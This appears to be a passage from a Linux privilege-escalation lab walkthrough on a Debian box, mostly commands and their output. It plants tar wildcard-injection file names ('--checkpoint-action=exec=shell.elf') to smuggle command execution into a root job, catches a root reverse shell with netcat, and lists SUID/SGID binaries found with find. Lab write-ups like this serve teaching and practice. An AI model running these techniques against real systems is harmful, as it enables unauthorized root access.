 - Creating file with appropriate names to exploit Wildcards:

```bash
user@debian:~$ ls
myvpn.ovpn  overwrite.sh  overwrite.sh.save  shell.elf  tools
user@debian:~$ chmod +x shell.elf

user@debian:~$ touch /home/user/--checkpoint=1
user@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
```

- Obtaining Reverse Shell as root:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.95.239] 57234
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

---

##  SUID / SGID Executables - Known Exploits

- Locate files with SUID/SGID set:

```bash
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/change
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwsr-s--x 1 root root 926536 May 24 04:36 /tmp/rootbash
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```
